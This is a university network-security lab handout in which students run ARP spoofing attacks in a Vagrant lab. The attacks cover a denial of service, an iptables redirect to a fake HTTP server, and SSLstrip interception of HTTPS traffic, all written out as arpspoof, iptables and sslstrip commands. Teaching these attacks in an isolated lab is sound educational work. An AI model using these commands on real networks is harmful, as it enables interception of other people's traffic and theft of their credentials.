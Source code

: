 # CSCD27 Lab 8: ARP spoofing and SSLStripping

## Vagrant Setup

Make sure to setup your environment as described in the [Vagrant Setup Guideline](https://github.com/ThierrySans/CSCD27-F16/blob/master/assignments/02/VAGRANT.md).

## Initial check

*As Alice*, test that Mathlab is reachable:

```shell
vagrant@alice:~$ curl http://mathlab.utsc.utoronto.ca/
```

## ARP Spoofing (Denial Of Service)

In this part, Mallory wants to disrupt the communication between Alice and the Gateway (to which all internet traffic to the outside goes). To do so, Mallory will broadcast spoofed ARP packets to Alice saying that the gateway can be reached using Mallory's physical address.

1. *As Mallory (terminal 1), broadcast spoofed ARP messages to Alice (10.0.1.101) pretending to be the gateway (10.0.1.100):

```shell
vagrant@mallory:~$ arpspoof -i eth1 -t 10.0.1.101 10.1.100
```

2. Finally:
- *As Alice*, test that Mathlab is no longer reachable.
- *As Mallory*, use Wireshark to see ARP spoofed messages and failed TCP messages

## ARP Spoofing (fake HTTP server)

In this part, rather than disrupting the communication between Alice and the Gateway, Mallory wants to setup a fake HTTP server pretending to be Mathlab. To do so, Mallory will first redirect HTTP messages to a fake server before spoofing the ARP messages.

1. As Mallory (terminal 2), redirect HTTP traffic (port 80) to port 8080 (our fake server)

```shell
vagrant@mallory:~$ sudo bash -e "echo '1' > /proc/sys/net/ipv4/ip_forward"
vagrant@mallory:~$ sudo iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --o-port 8080
```

2. As Mallory (terminal 2), start a fake HTTP server

```shell
vagrant@mallory:~$ cd /vagrant/mallory/fake_http
vagrant@mallory:~$ python -m SimpleHTTPServer 8080
```

3. *As Mallory (terminal 1), broadcast spoofed ARP messages

4. Finally:
- *As Alice*, test that Mathlab is now reachable (but is it really mathlab?)
- *As Mallory*, use Wireshark to see the succesful TCP Streams

## ARP Spoofing (fake HTTPs server)

How could Mallory setup the attack if Alice tries to connect to Mathlab using HTTPS?

```shell
vagrant@alice:~$ curl https://mathlab.utsc.utoronto.ca/
```

## SSLStripping

1. As Mallory (terminal 2), instead of setting up a fake HTTP server, forward traffic to the real server and be the man-in-the-middle instead:

```shell
vagrant@mallory:~$ cd sslstrip-0.9
vagrant@mallory:~$ python sslstrip.py -a -w log.txt -l 8080 -f
```

2. Finally:
- *As Alice*, test that (real) Mathlab is now reachable with HTTPS
- *As Mallory*, open the file log.txt and see all HTTPS traffic